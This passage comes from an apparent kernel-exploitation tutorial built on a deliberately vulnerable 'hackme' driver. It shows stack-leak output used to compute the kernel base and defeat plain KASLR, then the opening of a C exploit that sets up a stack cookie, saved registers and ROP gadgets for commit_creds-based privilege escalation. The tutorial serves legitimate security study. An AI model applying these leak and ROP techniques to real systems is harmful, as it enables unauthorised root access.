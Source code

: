 As an example, if we set the lower two bytes of the value at the stack
offset 38 to zero, we arrive at the base address of the kernel.

```
/ # ./leak_stack | grep 38
[+] offset 38 contains value: 0xffffffffa680a157
/ # grep ffffffffa6800000 /proc/kallsyms
ffffffffa6800000 T _text
ffffffffa6800000 T startup_64
ffffffffa6800000 T _stext
```

Another useful stack leak is at offset 41. Setting the lower bytes to
zero yields again the address of a symbol in the kernel table.

```
/ # ./leak_stack | grep 41
[+] offset 41 contains value: 0xffffffffa6a0008c
[+] offset 53 contains value: 0x417421
[+] offset 58 contains value: 0x417421
/ # grep ffffffffa6a00000 /proc/kallsyms
ffffffffa6a00000 T native_usergs_sysret64
ffffffffa6a00000 T __entry_text_start
```

Note that we could now start to rebuild our ROP chain, by computing
the base address of the kernel from the stack offset 38. The addresses
of the ROP gadgets can then be computed by their offset from the
kernel base address.
For the old implementation of ASLR, i.e. for KASLR that is not FGKASLR this works.

We need to set `nofgkaslr` in `run.sh`.
Then, the following code implements the attack on simple KASLR that
only adds a random offset to the kernel base address.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers
uint64_t kernel_base;

// rop gadgets
uint64_t prepare_kernel_cred;   // the offset from /proc/kallsyms
uint64_t commit_creds;
uint64_t pop_rdi_ret;     // pop rdi; ret
uint64_t mov_rdi_rax_movrsi_poprbp; // mov rdi, rax; mov [rsi+0x140], rdi; pop rbp; ret;
uint64_t swapgs_restore_regs_and_return_to_usermode; // the offset from /proc/kallsyms


void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}